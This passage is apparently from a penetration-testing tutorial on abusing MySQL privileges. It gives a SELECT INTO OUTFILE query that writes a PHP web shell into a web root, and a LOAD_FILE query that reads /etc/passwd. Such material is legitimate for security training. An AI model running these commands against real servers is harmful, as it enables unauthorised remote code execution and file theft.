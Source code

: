 
Now, as for demo purposes, let's imagine that `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET, having  the appropriate privileges, we will attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. 
 
```mysql
# Browse to the location where the file is and execute the commands.
 SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

### Reading files

#### MySQL - Read Local Files in MySQL

If permissions allows it:

```shell-session
select LOAD_FILE("/etc/passwd");
```


